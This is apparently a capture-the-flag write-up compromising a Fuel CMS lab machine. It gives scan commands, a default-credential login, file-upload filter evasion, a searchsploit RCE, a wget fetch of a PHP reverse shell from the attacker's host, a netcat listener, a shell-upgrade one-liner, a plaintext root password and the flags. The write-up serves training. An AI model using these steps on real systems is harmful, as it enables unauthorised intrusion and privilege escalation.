








# Task 1 - Root It

## Enumeration

sudo nmap -sV -sC -T5 -p- 10.10.225.183 -oN \~/Github/IgniteCTF/nmapscan.md

gobuster dir -u http://10.10.225.183 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -q

For starters I ran an nmap scan as well as a gobuster scan.

The gobuster scan came up with /home, /assets, and a couple of other interesting directories. The /assets directory came back with a 301 code so we know we don't have permissions for it.

In the nmap scan we see that robots.txt has 1 disallowed entry so we can go to /robots.txt to see what that is.

we can see there is a /fuel/ directory, so lets go there.

## Exploitation

we see there is a login page, I did some googling to find the default password for Fuel CMS and found that it was admin/admin which did allow us to login

So once I logged in looking around the web page there is a tab called "Assets" that allows us to upload a malicious file.

We tried uploading our php reverse shell and got the following message.

Let's try changing the file extension to .php5 to see if we can get around a possible blacklisting.

That did not work I tried renaming the file extension as well as adding 2 file extensions .jpg.php5 to see if that would get around a blacklisting

Uploading files did not seem to get me anywhere so I went to searchsploit and looked for any exploits for fuel cms.

We can try the first RCE, after editing the IP to match that of the Fuel machine we were able to run the file and get a cmd: prompt 

When we run whoami we do get the www-data that we expected. Now in order to get a more permanent shell on our local machine we need to be able to upload a reverse shell to the machine.

So I started a python web server on port 8000 on my machine: python -m http.server 8000

then I started my nc listener for when the reverse shell was executed

now on the cmd: we can run wget 10.13.16.145:8000/php-reverse-shell.php

One our web server terminal we can see the GET requests for the file come through.

and when we go to the machine's IP and our file name the listener we had set up is then populated with a shell.

we can run python -c 'import pty;pty.spawn("/bin/bash")' to solidify our shell

now we can navigate to the /home directory and the user www-data where we see flag.txt: 6470e394cbf6dab6a91682cc8585059b

From here I was a little stumped. I tried running sudo -l and sudo -V to get some more information about possible attack vectors but both needed www-data's password which we don't have

After doing some research I found that if we go to the first Fuel page we found before finding the login page there is critical information about files that are available to us.

I went to look inside the fuel/install/fuel_schema.sql file but that didn't have any more information so I went to the fuel_schema.sql file

Here we can see a username and password

root:mememe

Now we can run sudo as root and use the password mememe and we are root

Now we can go to /root directory and find root.txt which is b9bbcb33e11b80be759c4e844862482d

For this machine we were able to exploit a RCE for Fuel CMS then uploading a reverse shell file that allowed us to get the user shell. From there we had to go back to the first page that we were introduced to in the very beginning that included information about a file that had the root password in plain text.